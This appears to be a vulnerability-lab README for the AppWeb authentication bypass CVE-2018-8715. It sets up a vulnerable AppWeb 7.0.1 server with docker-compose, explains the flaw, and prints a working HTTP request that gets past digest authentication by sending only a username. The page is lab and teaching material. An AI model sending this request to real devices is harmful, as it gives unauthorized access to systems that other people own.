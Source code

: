 # AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

[中文版本(Chinese version)](README.zh-cn.md)
[PT-BR(Portuguese version)](README.pt-br.md)

AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication, which includes the following three authentication methods:

- `basic`, traditional HTTP basic authentication
- `digest`, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead of `Authorization` header.
- `form`, HTML based form authentication

In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in `http/httpLib.c`. With a forged HTTP request, it is possible to bypass authentication for the `form` and `digest` login types.

Reference link:

- https://ssd-disclosure.com/index.php/archives/3676

## Vulnerability environment

Launch an Appweb 7.0.1 server with `digest` authentication by executing the following command:

```
docker-compose up -d
```

To access `http://your-ip:8080`, you need to enter your account password.

## Exploit

The current username is `admin`, so you can use following request to bypass the authentication:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see, since we did not pass in the password field, the server error occurred with a `200 status code` and the session setting header:

![](1.png)

The page can be accessed normally with this session header:

![](2.png)
